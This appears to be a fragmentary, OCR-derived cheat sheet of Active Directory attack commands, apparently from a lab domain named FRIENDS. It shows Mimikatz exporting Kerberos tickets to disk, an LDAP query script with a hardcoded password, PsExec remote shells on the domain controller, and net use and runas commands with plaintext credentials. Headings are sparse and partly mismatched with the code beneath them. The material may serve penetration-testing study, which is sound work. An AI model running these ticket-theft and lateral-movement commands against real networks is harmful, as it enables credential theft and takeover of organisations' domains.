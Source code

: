 ### REQUEST TGS

###SAVE TICKETS TO DISC
```
.\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command "kerberos::list /export"
```
## ENUMERATION

> ACL

> misconfigured ACL

### KERBEROAST DELEGATION

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() 
$PDC = ($domainObj.PdcRoleOwner).Name 
$SearchString = "LDAP://" 
$SearchString += $PDC + "/" 
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))" 
$SearchString += $DistinguishedName 
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "rgeller", "Password123!@#")
```

```
.\PsExec64.exe \\FRIENDS-DC cmd.exe -accepteula
.\PsExec64.exe -accepteula \\FRIENDS-DC cmd.exe 
```
```
net use z: \\servername\folder /user:username password
net use \\192.168.174.140 /user:rgreen DirtyPassword23

runas /savecred /user:rgreen cmd.exe
runas /user:rgreen cmd.exe


runas /user:FRIENDS\rgreen C:\Windows\system32\cmd.exe


net use \\FRIENDS-DC
```



















